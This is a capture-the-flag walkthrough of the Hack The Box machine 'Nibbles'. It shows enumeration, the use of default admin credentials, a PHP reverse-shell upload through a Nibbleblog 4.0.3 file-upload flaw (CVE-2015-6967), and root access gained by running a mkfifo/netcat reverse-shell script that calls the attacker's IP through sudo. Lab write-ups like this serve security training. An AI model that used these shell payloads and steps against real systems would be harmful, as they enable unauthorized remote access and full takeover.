




# Nibbles

`CVE-2015-6967` `file upload` `php` `sudo`

```bash
john@attack> echo '10.129.96.84 nibbles.htb' | sudo tee -a /etc/hosts
john@attack> nmap nibbles.htb -sV
```

| Port     | Version                         |
| -------- | ------------------------------- |
| `22/tcp` | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 |
| `80/tcp` | Apache httpd 2.4.18             |

```bash
john@attack> curl http://nibbles.htb
```

Content is on http://nibbles.htb/nibbleblog.

<figure><figcaption></figcaption></figure>

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2987
```

Directories found : `/content` `/themes` `/admin` `/plugins` `/README` `/languages`

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ.php -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2986
```

Files found : `/sitemap.php` `/feed.php` `/admin.php` `/install.php` `/update.php`

```bash
john@attack> curl http://nibbles.htb/nibbleblog/README | less
```

Nibbleblog version : `v4.0.3`. It exists an exploit for this version : https://nvd.nist.gov/vuln/detail/CVE-2015-6967

<figure><figcaption></figcaption></figure>

The default credentials are `admin:nibbles`.

```bash
john@attack> cp usr/share/webshells/php/php-reverse-shell.php image.php
```

Change the IP address in the file `image.php` by the attacker IP address. Then upload this file and save.

<figure><figcaption></figcaption></figure>

```bash
   john@attack> nc -lnvp 1234 &
   john@attack> curl http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
   john@attack> CTRL+C
   john@attack> fg
nibbler@target> cat /home/nibbler/user.txt  # flag
nibbler@target> sudo -l
```

<figure><figcaption></figcaption></figure>

```bash
nibbler@target> unzip /home/nibbler/personal.zip
   john@attack> vi monitor.sh
```

Edit the content of the `monitor.sh` file.

```bash
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.45 1235 >/tmp/f
```

```bash
nibbler@target> nc -lnvp 8000 > /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc nibbles.htb 8000 < monitor.sh
```

Target has received the `monitor.sh` corrupted file.

```bash
nibbler@target> chmod +x /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc -lnvp 1235
nibbler@target> sudo /home/nibbler/personal/stuff/monitor.sh
   root@target> cat /root/root.txt # flag
```
